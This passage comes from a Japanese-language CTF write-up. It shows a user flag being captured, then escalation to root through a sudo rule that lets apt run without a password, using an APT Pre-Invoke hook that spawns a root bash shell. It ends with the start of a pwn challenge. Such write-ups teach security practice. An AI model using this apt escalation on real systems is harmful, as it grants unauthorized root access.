-rw-rw-r-- 1 root      root        342 Mar 19 00:40 note_to_self.txt
mwazowski@97c3648d9667:~$ cat flag.txt
cat flag.txt
gigem{ca7_1s7_t0_mak3_suRe}
</pre>

<br>
ユーザフラグ、ゲットです。

Flag: `gigem{ca7_1s7_t0_mak3_suRe}`


<br /><br />
<br /><br />
次はrootのフラグです。

<pre>
mwazowski@97c3648d9667:~$ sudo -l
sudo -l
Matching Defaults entries for mwazowski on 97c3648d9667:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mwazowski may run the following commands on 97c3648d9667:
    (root) NOPASSWD: /usr/bin/apt
</pre>

<br>
aptが実行できるみたいです。

ここで、aptを使った権限昇格をググって調べました。以下がやり方です。


<pre>
mwazowski@97c3648d9667:~$ sudo apt update -o APT::Update::Pre-Invoke::="/bin/bash -i"

root@97c3648d9667:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
root@97c3648d9667:/tmp# cd /root
cd /root
root@97c3648d9667:~# ls  
ls 
flag.txt
root@97c3648d9667:~# cat flag.txt
cat flag.txt
gigem{y0u_w0u1d_7h1nk_p3opl3_W0u1d_Kn0W_b3773r}
</pre>

<br>
rootのフラグ、ゲットです。

Flag: `gigem{y0u_w0u1d_7h1nk_p3opl3_W0u1d_Kn0W_b3773r}`



<br /><br />
<br /><br />
## [Pwn]: ECHO_AS_A_SERVICE
- - -
### Challenge
> Echo as a service (EaaS) is going to be the newest hot startup! We've tapped a big market: Developers who really like SaaS.
<br /><br />
nc challenges.tamuctf.com 4251
